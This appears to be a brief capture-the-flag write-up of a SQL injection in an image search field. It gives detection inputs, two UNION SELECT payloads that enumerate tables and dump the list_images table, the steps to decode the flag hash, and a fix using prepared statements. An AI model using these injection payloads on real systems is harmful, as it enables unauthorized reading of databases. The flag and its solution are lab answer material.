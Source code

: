 Unsecure search
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

How to find exploit:
From home page, scroll down and select search image, in the search field, type ' 1=1' or type '1 or 1=1'. We get a result, this indicates that the page is vulnerable to sql injection.

How to exploit it:
Run union command in search field: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database (). to get te table name
run following union command: -1 union select NULL, concat (id, url, title, comment) from list_images This will return the images from the table.
" If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 " 
decrypt code using MD5 decrypt, then run sha256 on lowercased password: flag is result

How to fix exploit:
Use prepared statements to prevent sql injections